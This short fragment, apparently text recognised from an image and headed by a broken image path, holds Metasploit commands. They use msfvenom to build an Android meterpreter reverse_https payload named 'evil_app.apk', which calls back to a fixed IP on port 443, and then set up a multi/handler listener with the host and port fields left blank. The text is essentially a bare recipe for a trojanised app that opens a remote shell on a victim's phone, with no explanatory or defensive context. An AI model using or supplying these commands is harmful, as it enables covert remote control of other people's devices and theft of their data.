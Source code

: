 msfconsole 

msfvenom -p android/meterpreter/reverse_https LHOST=10.63.55.213 LPORT=443 -o evil_app.apk

use exploit/multi/handler
set payload android/meterpreter/reverse_https
set LHOST =
set LPORT =
